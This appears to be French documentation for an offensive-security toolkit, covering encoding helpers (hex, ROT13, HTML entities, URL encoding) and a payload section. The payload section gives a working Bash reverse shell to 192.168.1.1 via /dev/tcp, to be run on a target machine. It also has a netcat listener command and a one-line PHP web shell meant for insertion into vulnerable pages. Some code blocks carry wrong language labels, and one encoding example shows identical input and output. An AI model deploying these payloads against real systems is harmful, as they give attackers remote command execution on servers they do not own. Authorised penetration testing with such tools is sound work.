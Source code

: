 **Hexadecimal**

* **Encodez/Décodez des chaînes en Hexadecimal** :
  * Exemple d’encodage : "Test" → "54657374".
  * Exemple de décodage : "4E616D65" → "Name".

**ROT13**

* Appliquez le chiffrement ROT13, qui décale les lettres de 13 positions dans l’alphabet.
  * Exemple : "Hello" → "Uryyb".

**HTML Entities**

* Encodez ou décodez des caractères spéciaux en entités HTML.
  * Exemple : "\<script>" → "\<script>".

**URL Encoding/Decoding**

* **Encodage** : Transforme les caractères spéciaux en leur équivalent encodé.
  * Exemple : "Hello World!" → "Hello%20World%21".
* **Décodage** : Convertit les URL encodées en leur version lisible.

***

### **2. Payloads**

**Reverse Shells**

* **Langages Disponibles** :
  * Bash, Python, PHP, PowerShell, Ruby, Perl, Netcat, et bien plus.
* **Configuration** :
  * Renseignez votre adresse IP (listener) et le port à écouter.
  *   Exemple en Bash :

      ```javascript
      bash -i >& /dev/tcp/192.168.1.1/1234 0>&1
      ```
* **Cas d’Usage** :
  * Exécutez ce script sur une machine cible pour établir une connexion inversée (reverse shell) vers votre machine.

**Bind Shells**

* Les payloads de bind shell permettent à la machine cible d’écouter sur un port défini.
  *   Exemple avec Netcat :

      ```yaml
      nc -lvnp 1234
      ```

**PHP Web Shell**

*   Génère un shell web PHP minimaliste :

    ```php
    <?php system($_REQUEST['cmd']); ?>
    ```

    * À insérer dans une page vulnérable pour exécuter des commandes sur le serveur.
